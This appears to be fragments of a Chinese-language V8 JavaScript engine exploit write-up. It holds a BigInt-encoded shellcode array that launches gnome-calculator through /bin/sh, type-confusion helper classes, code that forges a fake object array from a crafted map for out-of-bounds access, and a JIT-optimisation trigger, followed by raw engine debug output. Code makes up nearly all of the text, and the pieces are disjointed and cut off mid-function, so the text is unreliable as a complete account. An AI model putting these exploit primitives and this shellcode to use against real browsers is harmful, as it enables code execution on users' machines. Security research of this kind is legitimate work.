 ```js
0x622fbb4899583b6an,0x48530068732f6e69n,0x480000632d68e789n,0x1ce852e689n,0x3d59414c50534944n,0x656d6f6e6720303an,0x616c75636c61632dn,0x8948575600726f74n,0x90050fe6n,0x28ffcb5377cfdb00n,0x0n,0x7fb4c1c7c083n,0x7fb4c1e96620n,0x7ffede705358n,0x100000000n,0x5619398be169n,0x5619398be270n,0xeec47372b188cf9bn,0x5619398be080n,0x7ffede705350n,0x0n,0x0n,0x1139cf921568cf9bn,0x11adf0fd31e6cf9bn,0x0n,0x0n,0x0n,0x1n,0x7ffede705358n,0x7ffede705368n,0x7fb4c1e98190n,0x0n,0x0n,0x5619398be080n,0x7ffede705350n,0x0n,0x0n,0x5619398be0aen
];

class Utils {
  static BigIntAsDouble(big_int) {
    Utils.#big_int_array[0] = big_int;
    return Utils.#double_array[0];
  }

  static DoubleAsBigInt(big_int) {
    Utils.#double_array[0] = big_int;
    return Utils.#big_int_array[0];
  }

  static CreateObject(prop_count) {
    let object = {};
    for (let i = 0; i < prop_count; ++i)
      object[`p${i}`] = 1;
    return object;
  }

  static InitEnumCache(object) {
    for (let key in object) { }
  }

  static AllocateInOldSpace(...bytes) {
    let string = String.fromCharCode.apply(null, bytes);
    Utils.#empty_object[string];

  }

  static #big_int_array = new BigUint64Array(1);
  static #double_array = new Float64Array(Utils.#big_int_array.buffer);
  static #empty_object = {};
};
```
## 伪造对象数组

既然我们能够在数组中越界读了，而我们知道，读取到的数据是什么类型完全取决于读到的值为单数还是双数，对于单数的情况，又取决于其 0 偏移处的 `map`，因此我们可以大致构造如下结构：

```js
//objarr map : 0x0018f109	0x000006cd	0x00208955	0x00000002
//double map : 0x0018f089	0x000006cd	0x00208961	0x00000020
con_buf=0x00208961;
doubleArr_addr=u2d(con_buf+0x18,0);//point to doubleArr[2]
objarr_map=u2d(0x0018f109,0x000006cd);
arr_element_length=u2d(con_buf+0x18+0x10,0xdeedbeee);
const doubleArr=[1.1,doubleArr_addr,objarr_map,arr_element_length,1.1,1.1,1.1,1.1,1.1,1.1,1.1,1.1,1.1,1.1,1.1,1.1];


%PrepareFunctionForOptimization(trigger);
trigger(_ => _);
trigger(_ => _);
%OptimizeFunctionOnNextCall(trigger);

vul=trigger(function() {
  object3.p9 = 1.1;
```

  [0]: 0x93700002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 4, attrs: [WEC]) @ Any
  [1]: 0x93700002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 3, attrs: [WEC]) @ Any
  [2]: 0x93700002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 2, attrs: [WEC]) @ Any
  [3]: 0x93700002a51: [String] in ReadOnlySpace: #d (const data field 3:s, p: 1, attrs: [WEC]) @ Any
  [4]: 0x93700002a61: [String] in ReadOnlySpace: #e (const data field 4:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0xf6100002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (data field 2:d, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any